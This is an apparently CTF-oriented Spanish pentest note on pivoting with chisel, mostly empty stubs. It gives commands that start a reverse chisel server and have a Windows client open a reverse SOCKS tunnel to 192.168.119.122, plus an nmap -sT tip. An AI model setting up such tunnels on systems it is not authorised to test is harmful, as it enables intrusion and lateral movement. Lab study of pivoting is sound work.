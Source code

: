 
## DESCRIPTION



#### Mas información
* 


## EXPLOITATION

```
chisel server -p 8000 --reverse

chisel.exe client 192.168.119.122:8000 R:socks 
```

Cuando se lance NMAP anañadir la opcion -sT si no no fucniona

## MACHINES

* Hack The Box: 

**!!NOTA IMPORTANTE!!** 